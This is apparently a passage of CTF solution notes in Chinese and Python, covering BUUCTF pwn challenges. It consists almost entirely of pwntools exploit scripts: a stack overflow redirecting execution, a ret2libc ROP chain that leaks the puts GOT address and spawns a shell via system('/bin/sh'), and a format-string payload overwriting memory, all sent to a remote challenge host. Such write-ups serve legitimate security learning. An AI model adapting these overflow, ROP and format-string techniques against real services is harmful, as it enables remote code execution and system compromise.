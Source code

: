 ```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26344)
io.sendlineafter('Hello, World', cyclic(128+8) + p64(0x400596))
io.interactive()
```
# buu007-ciscn_2019_c_1
常规的获取got表地址，LibcSearcher有的时候可以有的时候不行，题目能给libc是最好的。
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25958)
elf = ELF('./pwn')
# libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')

poprdi_ret = 0x400c83

payload = b'\x00' + cyclic(0x50+7)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols[b'main'])

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)
print(io.recv(12))

put_addr = u64(io.recv(6) + b'\x00\x00')
print(hex(put_addr))
libc = LibcSearcher('puts', put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

print(hex(sys_addr))
print(hex(binsh_addr))

payload = b'\x00' + cyclic(0x50+7)
payload += p64(0x4006b9)	# ret
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(sys_addr)

io.sendlineafter(b'Input your choice!', b'1')
io.sendlineafter(b'Input your Plaintext to be encrypted\n', payload)

io.interactive()
```
# buu008-[第五空间2019 决赛]PWN5
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28577)

payload = fmtstr_payload(10, {0x804C044: 0})
io.sendlineafter(b'your name:', payload)
```